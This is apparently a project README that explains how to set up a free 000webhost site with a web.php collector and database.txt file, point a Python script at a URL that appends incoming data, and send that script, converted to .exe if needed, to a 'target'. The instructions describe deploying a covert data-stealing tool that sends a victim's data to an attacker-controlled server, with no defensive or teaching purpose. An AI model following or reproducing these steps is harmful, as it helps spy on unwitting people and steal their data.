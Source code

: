 # RandomProject
1. Goto https://www.000webhost.com/ and create a website with unique name.
2. Under your website, goto file manager and public html, inside that folder, upload web.php and database.txt file.
3. In the .py file, change the name with <"your_website_name.000webhoshapp.com/web.php?action=append&data="+newdata>.
4. Send this .py file to your target.

*Note :* If your target does not have python installed, you first need to convert the .py file to .exe file (for Windows).

